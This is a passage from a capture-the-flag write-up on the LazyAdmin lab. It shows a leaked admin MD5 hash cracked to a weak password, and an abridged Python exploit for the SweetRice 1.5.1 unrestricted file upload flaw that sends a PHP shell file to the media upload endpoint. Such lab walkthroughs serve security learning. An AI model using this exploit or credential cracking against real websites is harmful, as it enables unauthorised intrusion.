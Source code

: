 ```
"manager"; "passwd"; "42f749ade7f9e195bf475f37a44cafcb"
```

Cracked it on CrackStation:

<img src="assets/images/thm/ctf/lazyadmin-14.png" alt="CrackStation Result" style="max-width:100%; height:auto;">

Password: `Password123`

### Arbitrary File Upload Exploit

The second exploit allowed authenticated users to upload arbitrary files:

```python
# SweetRice 1.5.1 - Unrestricted File Upload
host = input("Enter The Target URL : ")
username = input("Enter Username : ")
password = input("Enter Password : ")
filename = input("Enter FileName (e.g., shell.php5) : ")
file = {'upload[]': open(filename, 'rb')}
...
uploadfile = r.post('http://' + host + '/as/?type=media_center&mode=upload', files=file)
```

The exploit uploads the payload to:

```
http://<target>/attachment/<filename>
```

This led me to manually test `/content/as`, which showed the login form:
